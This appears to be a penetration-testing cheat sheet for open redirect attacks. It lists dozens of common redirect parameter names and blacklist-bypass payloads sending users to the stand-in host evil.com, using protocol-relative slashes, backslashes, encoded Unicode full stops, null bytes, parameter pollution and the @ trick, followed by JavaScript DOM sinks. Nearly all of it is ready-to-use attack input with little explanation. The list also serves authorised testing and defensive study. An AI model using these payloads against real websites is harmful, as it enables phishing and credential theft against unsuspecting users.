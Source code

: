 ```yaml
---
title: Open redirect
description: Attacker redirects a user to an external URL
---
```

## Exploit
### Common injection parameters
```url
/
?next
?url
?target
?rurl
?dest
?destination
?redir
?redirect_uri
?redirect_url
?redirect
/redirect/
/cgi-bin/redirect.cgi?
/out/
/out?
?view
/login?to
?image_url
?go
?return
?returnTo
?return_to
?checkout_url
?continue
?return_path
success
data
qurl
login
logout
ext
clickurl
goto
rit_url
forward_url
@https://
forward
pic
callback_url
jump
jump_url
click?u
originUrl
origin
Url
desturl
u
page
u1
action
action_url
Redirect
sp_url
service
recurl
j?url
url//
uri
u
allinurl:
q
link
src
tc?src
linkAddress
location
burl
request
backurl
RedirectUrl
Redirect
ReturnUrl
```
### Bypass blacklist
`http` blacklist bypass:

```html
//evil.com
```

`//` blacklist bypass:
```url
https:evil.com
```
Using `//` to bypass `//` blacklisted keyword (Browsers see `//` as `//`)
```url
\/\/evil.com/
/\/evil.com/
```
Using `/` to bypass:
```url
/\evil.com
```

URL encode Unicode full stop 。
```url
//evil%E3%80%82com
```

Null byte
```html
//evil%00.com
```
Parameter pollution
```url
?next=whitelisted.com&next=evil.com
```
Using "@" character, browser will redirect to anything after the "@"
```url
http://www.theirsite.com@evil.com/
```
### DOM based
View the page source. Common sink for open redirect:
```js
location
location.host
location.hostname
location.href
location.pathname
location.search
location.protocol
location.assign()
location.replace()
open()
element.srcdoc
XMLHttpRequest.open()
XMLHttpRequest.send()
jQuery.ajax()
$.ajax()
```
